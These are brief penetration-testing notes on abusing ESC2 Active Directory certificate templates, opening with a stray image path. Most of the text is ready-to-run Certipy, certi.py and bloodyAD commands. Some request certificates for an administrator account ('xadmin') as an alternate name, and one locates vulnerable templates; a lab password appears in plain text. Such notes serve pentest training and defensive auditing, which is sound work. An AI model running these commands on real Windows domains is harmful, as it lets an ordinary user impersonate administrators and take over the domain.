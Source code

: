 # General Overview: 

In order to abuse ESC2 certificate templates, the requirements are similar to those in ESC1, but with one key difference: if the template specifies the EKU as "Any Purpose" or doesn't specify an EKU at all, the certificate becomes versatile and can be used for any purpose. 

# Abusing ESC2 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -alt 'xadmin@megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name 'xadmin@megacorpone.com' --template vulnerable-ec2-template`
## BloodyAD

- Source: https://github.com/CravateRouge/bloodyAD
- python bloodyAD.py -u alfred.simmons -p 'SuperSpawn123!' --host 172.21.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorpone,DC=com' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'